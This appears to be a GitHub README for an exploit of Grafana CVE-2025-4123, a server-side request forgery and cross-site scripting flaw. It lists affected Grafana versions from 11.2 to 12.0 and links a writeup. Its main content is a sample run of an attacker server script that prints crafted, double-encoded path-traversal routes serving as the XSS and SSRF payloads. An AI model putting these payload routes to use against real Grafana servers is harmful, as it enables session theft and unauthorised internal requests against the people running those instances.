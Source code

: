 # Grafana CVE-2025-4123 Exploit

> **CVE ID:** [CVE-2025-4123](https://grafana.com/blog/2025/05/21/grafana-security-release-high-severity-security-fix-for-cve-2025-4123/)
> 
> **Severity:** High
> 
> **Impact:** Server-Side Request Forgery (SSRF), Cross-Site Scripting
> 
> **Affected Versions:** Grafana 11.2, Grafana 11.3, Grafana 11.4, Grafana 11.5, Grafana 11.6, Grafana 12.0
> 
> **Full Writeup** [Writeup](https://nightbloodz.github.io/grafana-CVE-2025-4123/)
> 

```bash
❯ sudo python server.py --host http://127.0.0.1

[+] Using attacker host: http://127.0.0.1

[+] XSS Route: /a/..%2f..%2f..%2fpublic%2f..%252f%255C127.0.0.1%252f%253Fp%252f..%252f..%23/explore
[+] SSRF Route: /render/public/..%252f%5Chttp://127.0.0.1%252f%3F%252f..%252f..

 * Serving Flask app 'server'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.100.2:80
Press CTRL+C to quit
```

